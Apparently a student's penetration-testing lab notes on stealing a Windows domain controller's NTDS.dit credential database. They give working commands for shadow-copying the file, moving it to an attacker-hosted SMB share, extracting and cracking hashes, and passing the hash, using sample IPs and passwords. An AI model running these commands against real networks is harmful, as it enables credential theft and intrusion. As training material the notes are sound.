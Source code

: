 Capturing NTDS.dit (with captured credentials from above)
- Stored at `%systemroot%/ntds` on domain controller in forest
- Is primary database file associated with AD; stores all domain usernames, password hashes and other critical schema information
1. Connect to DC with Evil-WinRM
	- `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
	- Everything after this is ran within evil-winrm
2. Checking local group membership
	- `net localgroup`
	- Want to see if account has local admin rights
		- To make copy of NTDS.dit file, need local admin (`Administators` group) or Domain admin (`Domain Admins` group)
	- `net user bwilliamson`
		- Check group memberships - Admins/Domain Admins?
3. Create Volume Shadow Copy (VSS) of C: drive (or whatever drive NTDS is stored)
	- `vssadmin CREATE SHADOW /FOR=C:
4. Copy NTDS.dit from the VSS
	- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
5. Create the SMB share on attack host like previous methods (see SAM attacking)
	- ``sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>`
6.  Move file from target DC to the share on attack host
	- `cmd.exe /c move C:\NTDS\NTDS.dit \\<attack host IP>\<share name> `
7. Extract hashes from NTDS.dit
	- IMPORTANT: Hashes in NTDS.dit encrypted wiht key stored in SYSTEM. Thus require transfer of SYSTEM. (see Attacking SAM, SYSTEM.. above)
	- `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL`
		- Ran on local attack host
		- This assumes have the SYSTEM file also in this directory
		- Local -> run offline and not connect to remote host

Alternatively, single line command?
1. `netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil`


Cracking the hashes
- As seen before, with hashcat
	- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

If cannot crack the hash, 
## Pass The Hash
- Takes advantage of NTLM authentication protocol to authenticate user using **password hash**
	- Authenticate with `username:password hash` instead of `username:clear-text password`
- `evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
	- Useful for lateral movement


# Credential Hunting in Windows
Useful keywords
    Passwords
    Passphrases
    Keys
    Username
    User account
    Creds
    Users
    Passkeys
    configuration
    dbcredential
    dbpassword
    pwd
    Login
    Credentials